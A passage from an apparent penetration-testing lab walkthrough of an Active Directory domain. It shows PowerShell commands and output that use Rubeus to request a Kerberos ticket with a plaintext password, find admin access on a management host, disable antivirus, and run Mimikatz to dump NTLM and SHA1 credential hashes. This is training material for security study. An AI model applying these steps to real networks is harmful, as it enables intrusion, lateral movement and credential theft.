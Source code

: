 ```powershell
MemberDistinguishedName : CN=studentuser57,CN=Users,DC=us,DC=techcorp,DC=local
MemberObjectClass       : user
MemberSID               : S-1-5-21-210670787-2521448726-163245708-16107
```
- For the changes to take effect, we need to log out and log in again to `STUDENT57`, since we need to request a new TGT that will contain our new domain group membership. Alternatively, we can purge our Kerberos tickets and request a new one using **Rubeus**.
```powershell
PS C:\Auditor> .\Rubeus.exe purge

<snip>

PS C:\Auditor> .\Rubeus.exe asktgt /user:studentuser57 /password:454RW7yRhbanBaFC /domain:us.techcorp.local /ptt

<snip>
```
- We can  now check if this new domain group membership grants us any new access rights to domain computers.
```powershell
PS C:\Auditor> Find-PSRemotingLocalAdminAccess
student57
US-Mgmt
```
- As members of the `MachineAdmins` domain group we now have access to `US-MGMT`.
# 5. Extracting Credentials and Tokens from `US-MGMT`
- We can remotely access `US-MGMT` due to `MachineAdmins` domain group membership, which means that we can steal credentials and tokens. We will use **Mimikatz**, **Rubeus**and **certutil**, after we temporarily disable AV.
```powershell
PS C:\Windows\Tasks> .\mimikatz.exe

<snip>

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate

<snip>

mimikatz # sekurlsa::logonpasswords

<snip>

Authentication Id : 0 ; 1487267 (00000000:0016b1a3)
Session           : Interactive from 2
User Name         : UMFD-2
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 12/27/2022 2:59:24 AM
SID               : S-1-5-96-0-2
        msv :
         [00000003] Primary
         * Username : US-MGMT$
         * Domain   : US
         * NTLM     : fae951131d684b3318f524c535d36fb2
         * SHA1     : 5a8d545eba116bcd5c01d644a7fb66c87d595342
        tspkg :
        wdigest :
         * Username : US-MGMT$
         * Domain   : US
```